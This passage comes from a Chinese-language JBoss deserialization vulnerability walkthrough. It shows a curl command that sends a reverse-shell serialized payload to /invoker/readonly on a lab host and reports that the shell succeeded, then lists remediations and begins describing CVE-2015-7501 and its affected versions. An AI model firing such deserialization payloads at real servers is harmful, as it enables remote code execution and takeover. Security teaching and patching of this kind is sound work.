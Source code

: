    
    
    curl http://192.168.10.154:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser  
    

![]()image-20210823091400586

成功反弹shell。

#### 安全防护

1.升级新版本。2.删除http-invoker.sar 组件，路径如下

    
    
    C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201005.png)image-20210823093407062

3.添加如下代码至 http-invoker.sar 下 web.xml的security-constraint 标签中,用于对 http invoker
组件进行访问控制。

    
    
    <url-pattern>/*</url-pattern>  
    

路径为：

    
    
    C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar\invoker.war\WEB-INF  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201006.png)image-20210823093730532![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210830201007.png)image-20210823093707651

### 2.JBoss JMXInvokerServlet 反序列化漏洞（CVE-2015-7501）

#### 漏洞原理

JBoss中/invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持反序列化。JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache
Commons Collections中的Gadget执行任意代码。

#### 影响版本

    
    
    JBoss Enterprise Application Platform 6.4.4,5.2.0,4.3.0_CP10  
    JBoss AS (Wildly) 6 and earlier  
    JBoss A-MQ 6.2.0  
    JBoss Fuse 6.2.0  
    JBoss SOA Platform (SOA-P) 5.3.1  
    JBoss Data Grid (JDG) 6.5.0  
    JBoss BRMS (BRMS) 6.1.0  
    JBoss BPMS (BPMS) 6.1.0  
    JBoss Data Virtualization (JDV) 6.1.0  
    JBoss Fuse Service Works (FSW) 6.0.0  
    JBoss Enterprise Web Server (EWS) 2.1,3.0  
    